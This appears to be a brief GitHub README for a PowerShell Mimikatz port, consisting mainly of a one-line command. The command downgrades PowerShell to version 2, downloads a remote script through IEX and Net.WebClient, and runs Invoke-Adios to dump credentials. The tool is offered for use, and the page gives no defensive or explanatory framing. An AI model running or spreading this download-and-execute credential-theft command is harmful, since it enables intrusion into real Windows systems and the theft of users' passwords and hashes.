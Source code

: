 # PowershellMimiKatz
Mimikatz 2.1.1 built on Aug 15 2018 13:42:01 ** Vegas Edition **

powershell -version 2 "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/analyticsearch/PowershellMimiKatz/master/Invoke-Adios.ps1'); Invoke-Adios -AdiosCreds
